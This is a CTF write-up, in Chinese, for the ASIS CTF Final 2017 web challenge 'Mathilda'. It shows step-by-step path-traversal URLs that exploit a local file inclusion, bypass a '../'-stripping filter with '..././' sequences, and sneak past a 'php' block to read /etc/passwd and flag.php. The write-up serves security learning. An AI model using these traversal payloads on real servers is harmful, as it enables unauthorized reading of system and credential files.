 # ASIS CTF FINAL 2017 : Mathilda

**category** : web

**points** : 57

> Mathilda learned many skills from Leon, now she want to use [them](http://178.62.48.181/)!

## write-up

用 wappalyzer 看出他是用 apache 2.4.25

```html
<!-- created by ~rooney -->
```

index page 有這一行所以猜他有 rooney 的 user 開 public_html 出來 ( http://178.62.48.181/~rooney/ )

發現他可以 local file inclusion ( http://178.62.48.181/~rooney/?path=rooney )

http://178.62.48.181/~rooney/?path=../../../../../../etc/passwd 沒成功

http://178.62.48.181/~rooney/?path=../rooney 得到跟 http://178.62.48.181/~rooney/?path=rooney 結果一樣，猜測他是用字串取代把 `../` 取代成空的

http://178.62.48.181/~rooney/?path=..././..././..././..././etc/passwd 成功

看到 th1sizveryl0ngus3rn4me 這個 user

http://178.62.48.181/~rooney/?path=..././..././..././..././home/th1sizveryl0ngus3rn4me/public_html/index.php

會擋 php，沒關係，用 `../` 繞過

http://178.62.48.181/~rooney/?path=..././..././..././..././home/th1sizveryl0ngus3rn4me/public_html/index.p../hp

看到他 `require 'flag.php'`

http://178.62.48.181/~rooney/?path=..././..././..././..././home/th1sizveryl0ngus3rn4me/public_html/flag.p../hp

噴 flag

小插曲 :

瀏覽 http://178.62.48.181/~rooney/?path=..././..././..././..././etc/apache2/vhost/host.conf

```
...
    ServerAdmin webmaster@localhost
    DocumentRoot /flag/html/
    ServerName flagishere
...
```

在 `/etc/hosts` 加上 178.62.48.181 flagishere，去瀏覽 http://flagishere，然後就噴 forbidden

以為有什麼神奇的東西，原來是被耍啦

## other write-ups and resources

* http://countersite.org/articles/web-vulnerability/161-mathilda-web-writeup-asis-2017.html
* https://rawsec.ml/en/ASIS-2017-Final-write-ups/#mathilda-web
* https://github.com/ymgve/ctf-writeups/tree/master/asis2017finals/web-mathilda
